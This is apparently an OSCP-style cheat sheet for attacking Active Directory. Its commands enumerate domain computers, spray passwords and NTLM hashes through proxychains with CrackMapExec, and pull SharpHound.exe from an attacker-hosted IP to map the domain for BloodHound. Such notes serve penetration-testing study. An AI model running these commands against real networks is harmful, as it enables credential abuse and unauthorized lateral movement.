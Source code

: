 
# List all currently joined machines in the AD
```bash
Get-ADComputer -Filter * -Properties Name -Server "oscp.exam"
Get-ADComputer -Filter * -Properties ipv4Address, OperatingSystem, OperatingSystemServicePack | Format-List name, ipv4*, oper*
```

-----------------------
# CrackMapExec

Enumerate smb, winrm, rdp, and ssh through CrackMapExec with passwords and hashes
```bash
proxychains crackmapexec smb IP1 IP2 -u USERNAME -p PASSWORD --shares
proxychains crackmapexec winrm IP1 IP2 -u USERNAME -p PASSWORD --continue-on-success 
proxychains crackmapexec rdp IP1 IP2 -u USERNAME -p PASSWORD
proxychains crackmapexec ssh IP1 IP2 -u USERNAME -p PASSWORD

proxychains crackmapexec smb IP1 IP2 -u USERNAME -H NTLM-HAHSH --shares
```

-----------------------
# SharpHound & BloodHound

Transfer SharpHound into the remote machine, collect data, and
transfer data back to the attacker machine
```bash
iwr -uri http://192.168.45.159:1337/SharpHound.exe -Outfile SharpHound.exe
./SharpHound.exe --CollectionMethods All
```

Start neo4j. Default creds are `neo4j:admin`
```bash
sudo /usr/bin/neo4j console
http://localhost:7474/browser/
```

Launch BloodHound
```bash
./BloodHound --no-sandbox
```

